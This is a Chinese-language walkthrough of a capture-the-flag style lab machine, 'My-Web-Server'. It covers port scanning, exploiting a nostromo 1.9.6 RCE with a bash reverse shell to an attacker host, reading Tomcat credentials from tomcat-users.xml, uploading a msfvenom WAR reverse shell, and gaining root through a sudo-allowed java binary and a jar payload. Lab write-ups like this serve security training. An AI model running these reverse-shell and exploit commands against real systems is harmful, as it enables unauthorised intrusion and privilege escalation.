


## My-Web-Server : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| My-Web-Server | `192.168.1.103` |

### 扫描端口和版本信息

`nmap -A 192.168.1.103`


扫描结果又是有多个 Web 应用，为了避免犯之前的错误，这里我进行扫描全部端口，不过结果并没有差异

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，服务器运行着不同的 Web 应用。经过 *dirb* ，*searchsploit* 等测试后，发现 **2222** 端口运行的 **nostromo 1.9.6** 服务器具有 RCE 漏洞




运行 Python 脚本，发现可以利用成功


### Getshell

既然服务器具有 RCE 漏洞并且可以利用，那么接下来我们就通过获取 shell 来更方便的执行命令

```python
python2 47837.py 192.168.1.103 2222 "bash -c \"bash -i >& /dev/tcp/192.168.1.112/4455 0>&1\""
```

Kali 监听 **4455** 端口，即可连接到 shell。之后使用 *find* 在找该用户可写入的目录时我们发现该用户可以写 Tomcat 配置文件所在的目录

`find / -writable -type d 2>/dev/null`



通过读 Tomcat 应用的用户文件（**/usr/local/tomcat/conf/tomcat-users.xml**），我们可以得到 Tomcat 的用户名和密码：`tomcat:@sprot0230sp`，使用该账户和密码登录 Tomcat 系统

 

在系统后台，我们可以通过上传 WAR file 来提高权限，并且可以在 Kali 平台上使用 *msfvenom* 工具生成反向 shell 文件

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.112 LPORT=5566 -f war > getshell.war
```


### 提权

Kali 本地监听 **5566** 端口，浏览器访问 ` http://192.168.1.103:8080/getshell/`路径即可反弹 shell


看来我们切换到了 *tomcat* 账户下，并且发现可以 sudo 执行 `/usr/lib/jvm/adoptopenjdk-8-hotspot-amd64/bin/java` 工具，因此该工具是运行 java 程序，那么我们再使用 msfvenom 生成一个 java 格式的反向 shell 即可

`msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.112 LPORT=7788 -f jar > getroot.jar`


Kali 监听 **7788** 端口即可获得 root 权限

